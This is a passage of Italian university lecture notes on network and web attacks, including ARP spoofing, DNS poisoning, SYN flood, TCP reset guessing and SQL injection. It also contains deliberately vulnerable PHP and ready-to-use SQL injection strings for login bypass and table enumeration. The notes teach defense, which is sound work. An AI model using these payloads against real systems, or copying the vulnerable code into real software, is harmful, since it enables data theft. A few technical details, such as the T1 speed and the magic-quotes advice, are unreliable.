La tabella ARP, quindi, può essere aggiornata anche senza aver fatto alcuna richiesta: l'attacco di ARP-spoofing sfrutta proprio queste vulnerabilità (by design). Lo scopo di un attacco di ARP-spoofing è quello di intercettare il traffico che passa tra due macchine collegate attraverso una rete con switch. In particolare l'attaccante fa parte della rete ma non è nel percorso tra le due macchine sulle quali compiere l'attacco; il suo obiettivo è quello di far credere al destinatario di avere l'indirizzo del mittente vero.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/ARP-spoofing}
	\caption{Esempio di rete connessa da uno switch.}
	\label{img:ARP-spoofing}
\end{figure}\\
Si consideri la rete rappresentata in Figura \ref{img:ARP-spoofing}. Eve manda messaggi ARP-Reply diretti all'indirizzo MAC di Alice, dichiarando che l'IP di Bob corrisponde al suo indirizzo MAC; sempre Eve manda anche messaggi ARP-Reply diretti all'indirizzo MAC di Bob, dichiarando che l'IP di Alice corrisponde al suo indirizzo MAC. Dunque, quando Alice vorrà inviare un pacchetto TCP SYN a Bob, l'IP sarà quello di Bob ma il MAC sarà quello di Eve, dunque il pacchetto sarà ricevuto da Eve che a sua volta lo manderà a Bob.\\
Il protocollo ARP può essere reso più sicuro rispetto all'ARP-spoofing semplicemente adottando il protocollo \textbf{SARP} (Secure ARP), ma si perdono alcune funzionalità dell'ARP (tra cui quella di UPnP). Per combattere dunque questo tipo di attacco è necessario agire direttamente sui componenti sui quali transitano gli attacchi, in questo caso lo switch: esso vede infatti transitare, in caso di attacco, pacchetti ARP con MAC diverso, IP uguale, ma \textit{contemporaneamente su porte diverse}. Un tool per prevenire e bloccare questo attacco è \textit{ArpON} "ARP handler inspection". \textit{ArpON} è un demone portabile che rende il protocollo ARP sicuro contro attacchi Man in The Middle attraverso tecniche ARP Spoofing, ARP Cache Poisoning, ARP Poison Routing. 

\subsection{Attacchi a livello rete}
Tra gli attacchi a livello rete vi sono sempre quelli di tipo DoS (Ping ICMP flood smurf), covert channels, fragmentation attacks, source routing e spoofing di indirizzi IP (DNS poisoning). Nel seguito vedremo i fragmentation attacks ed il DNS poisoning.
\begin{itemize}
\item Ping Flood: basato sull'invio numerosi macchetti (flooding) ICMP Echo Request (Dos Type).
\item Fragmentation Attacks: \textit{tiny fragments} e \textit{overlapping fragments attacks}.
\item Smurf: l'attaccante fa lo spoofing dell'IP dellla vittima e comincia a mandare pacchetti ICMP Echo Reply causando un DoS alla vittima (DoS type).
\item Source Routing: tecnica che permette di specificare all'interno dell'header IP il tragitto (route) che il pacchetto deve seguire, invece che farlo decidere direttamente ai gateways.
\item DNS Spoofing e Cache Poisoning: viene modificata la cache del DNS in modo da ritornare un indirizzo IP sbagliato se qualcuno fa una richiesta al name server.
\end{itemize}

Come noto, il protocollo IP permette di spezzare un pacchetto in più frammenti nel caso in cui questo debba attraversare delle sotto-reti con MTU (Maximum Transmission Unit) minore della lunghezza del pacchetto stesso. Di seguito, nelle Figure \ref{bf:IP-header} e \ref{bf:TCP-header}, sono riportati gli header dei pacchetti IP e TCP.

\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\bitheader[lsb=0]{3,7,15,18,31} \\
		\bitbox{4}{Vers} & \bitbox{4}{IHL} & \bitbox{8}{TOS} & \bitbox{16}{Total Length} \\
		\bitbox{16}{Identification} & \bitbox{3}{Flg} & \bitbox{13}{Fragment Offset} \\
		\bitbox{8}{TTL} & \bitbox{8}{Protocol} & \bitbox{16}{Header Checksum} \\
		\bitbox{32}{Source IP} \\
		\bitbox{32}{Destination IP} \\
		\bitbox{32}{Options + Padding}
	\end{bytefield}
	\caption{Header di un pacchetto IP.}
	\label{bf:IP-header}
\end{figure}
\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\bitheader[lsb=0]{3,7,15, 31} \\
		\bitbox{16}{Source Port} & \bitbox{16}{Destination Port} \\
		\bitbox{32}{Sequence Number} \\
		\bitbox{32}{Acknowledgement Number} \\
		\bitbox{4}{Offset} & \bitbox{4}{RES} & \bitbox{8}{Flags} & \bitbox{16}{Window} \\
		\bitbox{16}{Checksum} & \bitbox{16}{Urgent Pointer} \\
		\bitbox{32}{Options + Padding}
	\end{bytefield}
	\caption{Header di un pacchetto TCP.}
	\label{bf:TCP-header}
\end{figure}
\noindent
Nel pacchetto IP di partenza (intero) vi sono: l'header IP, l'header TCP ed il payload. La tecnica di \textbf{tiny fragments attack} prevede di frammentare l'intero blocco in modo tale che nella prima parte rientrino l'header IP ed i primi 8 byte dell'header TCP (fino al Sequence Number compreso). I firewall normalmente vengono configurati per bloccare i tentativi di connessione dall'esterno della rete verso le porte alte (oltre la 1024) dei server, ma devono però lasciare passare i pacchetti rivolti verso porte alte che fanno parte di una connessione aperta dall'interno della rete verso l'esterno. Dunque per bloccare i tentativi di aprire una connessione verso l'interno vengono filtrati i pacchetti con il flag SYN del protocollo TCP settato ad 1 (pacchetti di inizio connessione). Utilizzando un primo frammento che non contiene i flag TCP, il firewall lascia passare il frammento anche se diretto verso una porta superiore a 1024 ed il secondo frammento non viene interpretato come un pacchetto TCP a causa della mancanza di un header TCP valido, quindi non viene filtrato. Così facendo tutti i frammenti superano il firewall. Quando i frammenti arrivano alla macchina di destinazione vengono riassemblati ricomponendo il pacchetto originale e questo è diretto verso una porta maggiore di 1024 ed ha flag $\text{SYN}=1$. Molti firewall aspettano di ricostruire tutti i frammenti prima di decidere se filtrare un pacchetto, per evitare attacchi di questo tipo, non rispettando tuttavia lo standard.

La tecnica di \textbf{overlapping fragments attack} è invece ideata in modo diverso: in questo caso i frammenti sono sovrapposti ed il secondo frammento riscrive alcuni dati del primo.

\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\begin{rightwordgroup}{Pacc. originale}
			\bitbox{8}{IP} & \bitbox{8}{TCP} & \bitbox{16}{Payload}
		\end{rightwordgroup} \\
	\end{bytefield}
	\begin{bytefield}{32}
		\begin{rightwordgroup}{1$^\circ$ Frammento}
			\bitbox{8}{IP} & \bitbox{8}{TCP} & \bitbox{6}{Payload} & \bitbox{10}{\rule{\width}{\height}}
		\end{rightwordgroup} \\
	\end{bytefield}
	\begin{bytefield}{32}
		\begin{rightwordgroup}{2$^\circ$ Frammento}
			\bitbox{8}{IP} & \bitbox{2}{\rule{\width}{\height}} & \bitbox{6}{TCP} & \bitbox{16}{Payload}
		\end{rightwordgroup} \\
	\end{bytefield}
\end{figure}
\noindent
Il primo frammento contiene una porta destinazione superiore a 1024 ma il flag $\text{SYN}=0$, quindi il firewall non lo filtra. Il secondo frammento non contiene un header TCP valido quindi non viene filtrato, ma va a riscrivere una parte dell'header TCP. In particolare corregge il flag: $\text{SYN}=1$. Quando arrivano a destinazione i frammenti vengono ricomposti e il secondo sovrascrive il primo, componendo un pacchetto TCP valido con porta destinazione superiore a 1024 e $\text{SYN}=1$.

%Si tenga comunque presente che con IPv6 e IPv4 la grandezza minima $\text{dell'MTU} è di 1280$ e $576$ byte per tutta la rete, dunque l'header non può essere frammentato. In generale il pacchetto viene comunque frammentato per la trasmissione, ma la dimensione minima di frammentazione è superiore alla dimensione dell'header, dunque anche i router e tutta l'infrastruttura attraverso la quale i pacchetti transitano non possono dividere i pacchetti in frammenti inferiori a 1280 byte.\\

Vediamo adesso un altro attacco a livello rete: \textbf{DNS poisoning}. Ogni host deve poter risolvere un indirizzo di rete cioè mappare una stringa alfanumerica (un dominio) in un indirizzo IP. Questa operazione viene svolta attraverso il protocollo \textit{DNS} (Domain Name System). Per ogni dominio in rete, esiste un server che può svolgere questo compito in modo \textit{authoritative}; l'indirizzo di un server \textit{authoritative} non è noto per ogni dominio a priori, quindi in genere ogni host è configurato con un indirizzo di un server DNS locale. Il server DNS locale richiederà a sua volta a dei root server l'indirizzo dei DNS validi in modo ricorsivo dino a trovare la giusta risoluzione nome/IP. Per incrementare le performance di solito il DNS locale mantiene questa associazione in una cache per un certo periodo. Il funzionamento è schematizzato in Figura \ref{img:DNS}.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/DNS}
	\caption{Funzionamento gerarchico dei DNS.}
	\label{img:DNS}
\end{figure}
\noindent
In generale un attacco ad un DNS serve a far credere ad un certo host vittima che l'IP che corrisponde ad un nome di dominio sia un IP diverso da quello originale. Il protocollo DNS non utilizza forme di cifratura per proteggere i pacchetti, quindi le risposte di un DNS server possono essere facilmente falsificabili. Un attacco di questo genere serve per: il phishing, il furto di credenziali, attacchi su home-banking, redirezionamento di connessioni e Man-In-The-Middle (MITM) in generale. L'attacco può essere realizzato benissimo nella rete locale, nella richiesta da/verso il server DNS locale e nella richiesta da/verso uno dei server authoritative.\\
Abbiamo già visto come è possibile realizzare a livello collegamento attacchi di tipo MITM su varie tecnologie come ad esempio ARP-spoofing per reti Ethernet e attacchi sulle chiavi WEP per reti WiFi. Non è dunque sorprendente  immaginare che lo stesso attacco possa essere utilizzato per modificare i pacchetti di DHCP (assegnando ad un nodo della rete un nuovo indirizzo del server DHCP, controllato dall'attaccante) e DNS responses (modificando i pacchetti che arrivano dal server DNS). Se l'attaccante è nel path tra il server DNS locale e quello remoto (on-path) l'attacco è banale (è sufficiente rispondere al posto del DNS), altrimenti (off-path) l'attaccante deve poter rispondere ad una richiesta DNS prima del server remoto pertinente (praticamente impossibile) o inserire una \textit{entry} (corrispondenza) nel local DNS. In Figura \ref{img:DNS-attack} è riportato uno schema di attacco. I principali campi di un pacchetto DNS che devono essere modificati sono: la porta UDP origine e destinazione, l'IP di origine e destinazione, e l'ID del pacchetto, ossia un numero scelto a caso da chi invia la richiesta, che deve essere replicato nella risposta.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/DNS-attack}
	\caption{Schema di un attacco a DNS.}
	\label{img:DNS-attack}
\end{figure}
\noindent
Lo scopo dell'attaccante è quindi quello di riuscire ad \textit{inquinare la cache del server DNS locale} (poisoning), ovvero di rispondere al posto del server DNS remoto. Per farlo, nel momento in cui il server DNS locale invia una richiesta per un dominio remoto, l'attaccante deve rispondere con un pacchetto forgiato che contenga le caratteristiche giuste:
\begin{itemize}
	\item Indirizzo IP sorgente $\longrightarrow$ quello del server remoto (prevedibile)
	\item Porta UDP sorgente $\longrightarrow$ quella del server remoto (53)
	\item Indirizzo IP destinazione $\longrightarrow$ quello del server locale (prevedibile)
	\item Porta UDP destinazione $\longrightarrow$ quella usata dal server locale per inviare la richiesta (non prevedibile)
	\item ID del pacchetto $\longrightarrow$ quello del pacchetto di richiesta (non prevedibile)
\end{itemize}
Ci sono quindi due campi, entrambi di 16 bit (porta e ID) che potrebbero essere non prevedibili dall'attaccante. Abbiamo dunque 32 bit incogniti che si traducono in $2^{32} \simeq 4$ miliardi di possibili combinazioni, ossia di pacchetti. L'attaccante, ammesso che sappia il momento in cui deve inviare la risposta fasulla, deve inviare prima del server remoto mediamente 2 miliardi di pacchetti; se ogni pacchetto è lungo 80 byte, l'attaccante deve inviare 160 GB di traffico prima che il server remoto possa rispondere. L'attacco quindi non sembrerebbe possibile.\\
Devono però essere fatte delle osservazioni sulle ipotesi formulate sinora. Alcuni server DNS non utilizzano una porta casuale per inviare le richieste: il bind sceglie una porta all'avvio e continua ad usarla anche in seguito. Dunque, una volta scoperta la porta, i bit incogniti sono 16, ossia passiamo da $2^{32}$ a $2^{16}$ possibili combinazioni, che sono comunque 65000 $\cdot$ 80 $\simeq 5$ MB da inviare in poche decine di millisecondi.\\
Immaginiamo inoltre che l'attaccante (Eve) possa far iniziare la richiesta al server DNS (o è all'interno della rete, oppure il server DNS (Alice) accetta anche richieste dall'esterno). A questo punto l'attaccante sa quando avverrà la richiesta:
\begin{itemize}
	\item Eve invia ad Alice una richiesta per il dominio \url{www.example.com}
	\item Alice reinvia la richiesta al server DNS di \url{www.example.com} (Bob)
	\item Eve prova a rispondere prima di Bob, con un flood di $n$ risposte fasulle
\end{itemize}
La probabilità di successo è pari a $n/2^{16}$, ammesso che il server DNS riesca ad elaborare tutte le risposte forgiate; a questo scopo, però, ci può venire incontro il paradosso del compleanno.\\
Date $n$ persone, qual è la probabilità $P(n)$ che tra queste ve ne siano due nate nello stesso giorno? Per calcolare questo valore si calcola la probabilità inversa $\bar{P}(n)$, ossia la probabilità che su $n$ persone nessuna sia nata lo stesso giorno:
$$\bar{P}(n) = \frac{364}{365}\cdot\frac{363}{365}\cdot\frac{362}{365}\;\ldots\;\frac{365-(n-1)}{365},$$
da cui
$$P(n) = 1-\bar{P}(n) = 1-\prod_{i=1}^{n-1}\frac{365-i}{365}.$$
Abbastanza sorprendentemente, anche per valori di $n$ non troppo alti si ottengono delle probabilità abbastanza elevate:
\begin{itemize}
	\item Per $n=23 \Longrightarrow P(n) \simeq 51\%$
	\item Per $n=30 \Longrightarrow P(n) \simeq 70\%$
	\item Per $n=40 \Longrightarrow P(n) \simeq 97\%$
\end{itemize}
Vediamo come applicare questo paradosso all'attacco di DNS poisoning. Nel caso in cui Eve faccia $n$ richieste per l'host \url{www.example.com}, Alice genererà un ID a caso tra 0 e $2^{16}$ per ognuna delle richieste verso Bob; Alice interromperà
l'invio delle richieste quando riceverà almeno una risposta valida. Contemporaneamente Eve invierà un burst di risposte falsificate, con un ID scelto a caso. Se l'ID di almeno una di queste risposte false corrisponde all'ID di almeno una delle richieste inviate (e viene ricevuta prima di quella di Bob), allora Alice avrà nella cache una entry per \url{www.example.com}. Statisticamente, per il paradosso del compleanno, inviando 700 richieste/risposte si ha una probabilità vicina al 100\% di indovinare almeno una risposta, dunque non occorrono moltissimi tentativi. In questo modo la cache rimane inquinata e tutte le richieste successive verranno redirette verso l'host controllato da Eve.

Concludendo, fare poisoning di un server DNS è possibile in linea teorica, ma molto difficile in pratica, dal momento che dovremmo avere a che fare con un server DNS configurato molto male. Sotto opportune ipotesi però l'attacco è perfettamente realizzabile con dei mezzi a disposizione di chiunque e può essere reso più facile se il server DNS originario (Bob) è sotto un attacco di DoS, quindi non risponde prontamente. Un attacco di DNS poisoning è facilmente rilevabile attraverso monitoring, guardando la provenienza delle risposte a richieste fittizie. Per evitare che l'attacco sia applicabile è quindi importante scegliere bene gli applicativi che si usano, avendo la certezza, ad esempio, che utilizzino porte sorgenti casuali oppure che la comunicazione tra DNS locale ed autoritativo sia resa sicura attraverso un certificato a chiave pubblica (Secure DNS -- DNSSEC).\\
È possibile difendersi dal DNS poisoning anche a livello più alto controllando, ad esempio, se il dominio ha un certificato valido (https).

\section{Attacchi ai livelli alti della pila ISO/OSI}
Gli attacchi mirati al livello 4 o superiori della pila ISO/OSI, detti anche \textit{end-to-end}, sono dovuti a problemi legati all'implementazione (e non progettazione) dei protocolli.

\subsection{Attacchi a livello trasporto}
Tra gli attacchi a livello trasporto abbiamo sempre quelli di tipo DoS (SYN flood, TCP reset guess, Teardrop) e Spoofing UDP e TCP.

Per quanto riguarda lo spoofing per UDP è analogo al caso IP, poichè essendo un protocollo connectionless, basta falsificare l'header. Per lo spoofing TCP invece è più complicato. TCP è infatti un protocollo connection oriented che richiede di stabilire una sessione tramite il \textit{three-way handshake}. Se è forgiato un pacchetto SYN con l'indirizzo IP falsificato e questo è inviato ad un server, questo cercherà di portare a termine l'handshake rispondendo con un pacchetto SYN/ACK. Questo pacchetto riporterà l'indirizzo IP falsificato, quindi non sarà rinviato all'attaccante che non potrà rispondere con il terzo e ultimo pacchetto (il pacchetto ACK). Per portare a termine questo attacco è necessario inviare un pacchetto ACK al server che non solo riporti nuovamente l'indirizzo IP falsificato, ma anche il sequence number che il server ha inserito nel pacchetto SYN/ACK. Per scegliere questo numero l'attaccante deve sapere come il server li sceglie. Siccome l'attaccante invia il primo e il terzo pacchetto senza vedere il secondo, questo attacco si chiama \textit{blind spoofing}.\\

Il \textit{Teardrop} è un attacco DoS che prevede l'invio di pacchetti frammenti in modo confuso e mescolato in modo che il target host non riesca a riassemplare i pacchetti. Era un tipo di attacco molto comune con vecchi sistemi operativi come Windows NT e 95. 

Il \textit{SYN flood} è uno degli attacchi più comuni DoS, e trova le sue dirette radici nel \textit{Ping of Death}, in cui venivno creati degli pacchetti ping in modo che la loro dimensione, una volta riassemblati dalla vittima, provocasse un buffer overflow poichè maggiore dell'MTU IP di 65535 byte. L'attacco prevede inizialmente la ricerca delle porte aperte del TCP host da attaccare e successivamente l'invio di richieste con $\text{SYN}=1$. A questo punto l'host alloca le risorse di memoria per gestire la connessione che sta per essere creata ed invia un pacchetto con i flag $\text{SYN}=1$, $\text{ACK}=1$ (detto SYN/ACK) ed avvia un timeout (di qualche decina di secondi, al termine del quale vengono deallocate le risorse) per attendere l'arrivo del terzo pacchetto dell'handshake: in questo momento si dice che sul server vi è una connessione \textit{half-open}. Se un attaccante invia un grande numero di pacchetti con $\text{SYN}=1$ e indirizzi IP mittente falsi, prima o poi la memoria del server si saturerà ed inizierà a scartare pacchetti; in questo modo si impedisce ad altre macchine di accedere al servizio.\\

In linea generale non esistono rimedi comunemente accettati per gli attacchi di SYN flood, con poca banda a disposizione si possono raggiungere i limiti di memoria di un server. Un metodo per evitare questo attacco prevede l'utilizzo di \textit{SYN cookies}. In pratica, quando viene inviato il pacchetto con i flag $\text{SYN}=1$, $\text{ACK}=1$ non viene scelto un numero di sequenza casuale, ma un numero che rappresenta la codifica di informazioni riguardanti la connessione ed inoltre non viene allocata memoria. Quando viene ricevuto il terzo pacchetto del three-way handshake, questo contiene l'ACK inviato, da cui si riestraggono le informazioni codificate: solo a questo punto la connessione viene aperta e le risorse allocate. Il numero di sequenza deve essere comunque impredicibile, altrimenti si rischiano attacchi di \textit{SYN spoofing}. Tuttavia questo serve solo a mitigare il SYN flood: l'attaccante potrebbe pensare di completare il three-way handshake. Un'alternativa potrebbe essere quella di non accettare tante richieste dallo stesso indirizzo IP, ma anche questo si rivela poco utile dal momento che l'attaccante potrebbe effettuare il SYN flood da un set di host oppure pensare di forgiare i pacchetti ad-hoc con IP diversi.\\

Un'altra idea di attacco può essere quella del \textit{TCP reset guess}, detto anche \textit{TCP sequence prediction attack}. Una connessione TCP può essere terminata da uno dei due partecipanti inviando un pacchetto con il flag $\text{RST}=1$ ($\text{FIN}=1$). Si noti che in realtà $\text{FIN}=1$ indica una terminazione corretta nel 4-way handshake. Affinché il pacchetto venga accettato, questo deve contenere i valori corretti di IP mittente e destinazione, porta TCP mittente e destinazione, numero di sequenza corretto all'interno del flusso. Un attaccante che vorrebbe interrompere una connessione tra due macchine remote deve conoscere gli IP, può indovinare le porte (una è nota, l'altra predicibile), ma non può conoscere il numero di sequenza corretto: deve provare un \textit{brute force}, ma facciamo qualche conto. Il numero di sequenza è un campo di 32 bit, quindi la combinazione corretta è una delle possibili $2^{32} \simeq 4\;294\;967\;295$ combinazioni; avendo a disposizione un modem 56k ci vorrebbero circa 24 542 670 secondi, ovvero 284 giorni. Il protocollo TCP però impone che per essere ricevuto correttamente, un pacchetto di reset deve semplicemente cascare nella finestra di numeri di sequenza che la macchina mantiene attivi. Una TCP \textit{window} può essere larga fino a $2^{16}$ bit. Non vi è quindi bisogno di provare tutti i numeri di sequenza, ma provando con numeri di sequenza distanti non più di $2^{16}$ si è ragionevolmente sicuri di riuscire ad interrompere la connessione. Otteniamo che le possibili combinazioni vengono ridotte: $2^{32}/2^{16} = 2^{16} = 65\;535$. Avendo a disposizione un modem 56k ci vogliono circa 374 secondi, ovvero 6 minuti. Nella Tabella \ref{tab:TCP-reset-guess} sono mostrati alcuni tempi di reset.  In pratica, una volta che l'attaccante ha ottenuto il sequence number corretto, viene dato il via ad una sorta di "gara" tra l'attaccante ed il vero host per rispondere prima alla richiesta. Proprio per questo il TCP reset guess di solito viene fatto dopo un attacco DoS al trusted host.
\begin{table*}[t!]
	\centering
	\begin{tabular}{cccc}
		\toprule[0.5ex]
		\textbf{Velocità} & \textbf{Numero di Pacchetti} & \textbf{Tempo per una porta} & \textbf{Tempo per 50 porte}\\
		\midrule
		56 kbps (dialup) & 65 537 (* 50) & 374 secondi (6 min.) & 18 700 (5.2 ore)\\
		80 kbps (DSL) & 65 537 (* 50) & 262 secondi (4.3 min.) & 13 107 (3.6 ore)\\
		256 kbps (DSL) & 65 537 (* 50) & 81 secondi (1 min.) & 4 050 (1.1 ore)\\
		1.54 kbps (T1) & 65 537 (* 50) & 13.6 secondi & 680 (11 minuti)\\
		45 Mbps (DS3) & 65 537 (* 50) & 1/2 secondo & 25 secondi\\
		155 Mbps (OC3) & 65 537 (* 50) & 1/10 secondo & 5 secondi\\
		\bottomrule[0.5ex]
	\end{tabular}
	\caption{Tempi di reset di una connessione con finestra larga 16 bit.}
	\label{tab:TCP-reset-guess}
\end{table*}

Per cercare di ovviare a questo problema è possibile utilizzare IPsec per cifrare l'header o disabilitare il campo \textit{window scaling} (estensione di TCP che serve ad aumentare/diminuire la dimensione della finestra -- l'attaccante ha dunque possibilità di scelta). Il risultato è una connessione lenta, ma più sicura.

\subsection{Attacchi al middleware}
Per \textit{middleware} si intende tutto quel codice che sta nel mezzo tra la richiesta che fa un browser e la presentazione di una pagina HTML di risposta, ossia tutto quel software interponibile tra due layer che non varia in alcun modo nessuno dei due, agendo quindi in modo trasparente. Software di questo tipo (CGI -- Common Gateway Interface) scritti in qualsiasi linguaggio, script PHP, Python, Ruby, ASP, sono tutti esempi di \textit{middleware}. Negli ultimi anni le pagine web si sono molto complicate (si parla di applicativi web) e gli script compiono operazioni sempre più delicate. Molti attacchi presenti in letteratura hanno a che vedere con la \textit{validazione dei dati}, ovvero con quelle tecniche che devono essere utilizzate dal programmatore per evitare che un utente possa inserire nelle chiamate HTTP dati estranei a quelli desiderati. Vediamo quindi un paio di esempi di attacchi al middleware basati su errori di \textit{data validation} o \textit{input validation}.

\subsubsection{SQL Injection}
Si consideri un semplice form in HTML avente il seguente codice:
\begin{lstlisting}[language=html]
<html>
	<form action="retrieve.php" method="get">
		User: <input type="text" name="user">
		<br>
		Password: <input type="text" name="pass">
		<input type="submit" value="entra">
	</form>
</html>
\end{lstlisting}
Lo script in PHP che esegue fa il parsing degli input è il seguente:
\begin{lstlisting}[language=php]
<?php
	$link = mysql_connect('localhost', 'prova');
	mysql_select_db('sql_inject');
	
	$user = $_GET['user'];
	$password = $_GET['pass'];
	
	$result = mysql_query("SELECT secret FROM userdb WHERE
				user='$user' AND password='$password'");
	$row = mysql_fetch_assoc($result);
	echo $user."\' Secret is: ". $row['secret']. "\n";
?>
\end{lstlisting}
Una prima cosa che si osserva è che i parametri vengono passati attraverso GET: è buona norma utilizzarla quando non deve essere variato lo stato delle risorse, si usa invece POST nel caso opposto. La query viene fatta al database MySQL \texttt{userdb} avente questa forma:
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|c|c|}
		\hline
		\textbf{User} & \textbf{Password} & \textbf{Secret} \\
		\hline
		Alice & 321 & 2131 \\
		\hline
		Bob & 123 & 2sd1 \\
		\hline
		$\dots$ & $\dots$ & $\dots$ \\
		\hline
	\end{tabular}
\end{figure}\\
Quello che ci interessa di più è la query che PHP fa verso il database MySQL; se utilizziamo \texttt{user=Alice} e \texttt{password='}, la query diventa
\begin{lstlisting}[language=sql]
"SELECT secret FROM userdb WHERE user ='Alice' AND password ='"
\end{lstlisting}
A questo punto MySQL trova un \texttt{'} di troppo e segnala errore, perché non riesce ad interpretare il testo della stringa. Questo errore può essere tuttavia sfruttato: se utilizziamo \texttt{user=Alice} e \texttt{password=' OR user=' Alice}, la query diventa
\begin{lstlisting}[language=sql]
"SELECT secret FROM userdb WHERE user ='Alice' AND password =" OR user='Alice'
\end{lstlisting}
A questo punto la stringa è \textit{corretta} e significa: restituisci dalla tabella \texttt{userdb} la colonna per cui (user=Alice e password=") \textit{oppure} user=Alice; la prima parte della query fallisce, ma la seconda restituisce il contenuto della colonna \texttt{secret} \textit{senza controllare la password}. In questo esempio è tuttavia necessario sapere come è composta la query e non sempre questo è noto. Utilizzando il commento \texttt{--} si possono escludere delle parti di query di cui non si conosce il contenuto; in questo caso basta porre \texttt{user=Alice';--} per ottenere la query
\begin{lstlisting}[language=sql]
"SELECT secret FROM userdb WHERE user ='Alice';--and password="
\end{lstlisting}
Così facendo tutta la parte della query dopo il simbolo \texttt{--} non viene considerata. Nel caso in cui ci fossero altre tabelle nel DB è possibile utilizzare query più complicate per riuscire ad accedere anche a queste. Se sappiamo ad esempio che esiste una tabella \texttt{houses} come questa
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|c|c|}
		\hline
		\textbf{Owner} & \textbf{Number} & \textbf{Value} \\
		\hline
		Bob & 1 & 1 000 000 \\
		\hline
		Alice & 3 & 9 000 000 \\
		\hline
		$\dots$ & $\dots$ & $\dots$ \\
		\hline
	\end{tabular}
\end{figure}\\
utilizzando il comando \texttt{UNION} è possibile effettuare query su tabelle diverse. Infatti, ponendo \texttt{user=' UNION SELECT value FROM houses WHERE owner=Alice;-- }, la query diventa
\begin{lstlisting}[language=sql,basicstyle=\scriptsize\ttfamily]
"SELECT secret FROM userdb WHERE user =' UNION SELECT value FROM houses WHERE owner=Alice;-- "
\end{lstlisting}
La prima parte della query fallisce, ma la seconda parte effettua una richiesta su una seconda tabella e viene restituito il risultato. Come ultima cosa vediamo come fare per sapere se vi sono altre tabelle; di seguito sono riportati i valori che \texttt{user} dovrebbe assumere per questo scopo:
\begin{lstlisting}[language=sql]
user=' union SELECT COUNT(*) FROM sqlite_master WHERE type='table';--
user=' union SELECT name FROM sqlite_master WHERE type='table' LIMIT 1;--
user=' union SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 1;--
user=' union SELECT sql FROM sqlite_master WHERE name='houses';--
\end{lstlisting}
Vediamo però adesso come è possibile ovviare a questo attacco. La prima cosa da notare è che le versioni più vecchie dei Webserver non effettuano alcun parsing sulle stringhe che si inseriscono nelle query; oggi, volendo, si possono inserire dei controlli sulle stringhe prima che queste vengano inserite nella query. L'idea potrebbe essere ad esempio quella di vietare i caratteri speciali in input (fare cioè, più in generale, una \textit{input validation}) e, ancor prima, andrebbe nascosta la visione del filesystem (gerarchia di file e cartelle del server) a chiunque (esterno) acceda. È possibile infatti che un attaccante possa vedere anche i files php presenti e dunque attaccare sulla base del loro contenuto. All'atto pratico, in Linux ad esempio, dovrebbe essere modificato il file \texttt{/etc/php5/apache2/php.ini} come segue:
\begin{lstlisting}[language=bash]
; Magic quotes
; Magic quotes for incoming GET/POST/Cookie data.
magic_quotes_gpc = Off
; Magic quotes for runtime-generated data
magic_quotes_runtime = Off
; Use Sybase-style magic quotes
; (escape ' with '' instead of \').
magic_quotes_sybase = Off
\end{lstlisting}
Dovrebbero inoltre essere utilizzati statements di questo genere:
\begin{lstlisting}[language=sql]
$db_connection = new mysqli("localhost",
	"user", "pass", "db");
$statement = $db_connection->prepare("
	SELECT campo FROM tabella WHERE id = ?");
$statement->bind_param("i", $id);
$statement->execute();
\end{lstlisting}
Si noti che il problema delle injection non si verifica solo con PHP+MySQL, ma con qualsiasi altro linguaggio di interfaccia verso un qualsiasi altro database: ASP, Python, Ruby, Postgres, Oracle, $\dots$

\subsubsection{Cross-Site-Scripting (XSS)}
Un XSS è un attacco basato sulla possibilità di inserire del codice malizioso in pagine web esterne ritenute affidabili dagli utenti, in modo che questi, quando si collegano a tali pagine, vengano indotti ad eseguirlo. L'attacco può essere \textit{stored}, cioè il codice persiste stabilmente nella pagina web (è la variante più devastante di XSS), o \textit{reflected}, cioè il codice viene usato immediatamente dallo script lato server per costruire le pagine risultanti. Si consideri, a scopo illustrativo, un semplice form in HTML come il seguente:
\begin{lstlisting}[language=html]
<html>
	<form action="check.php" method="get">
		Scrivi qualcosa :
		<input type="text" name="stringa">
		<input type="submit" value="Ok">
	</form>
</html>
\end{lstlisting}
Lo script PHP a cui il form invia i dati è del tipo:
\begin{lstlisting}[language=php]
<?php
	$input = $_GET['stringa'];
	echo "Hai scritto: ".$input;
?>
\end{lstlisting}
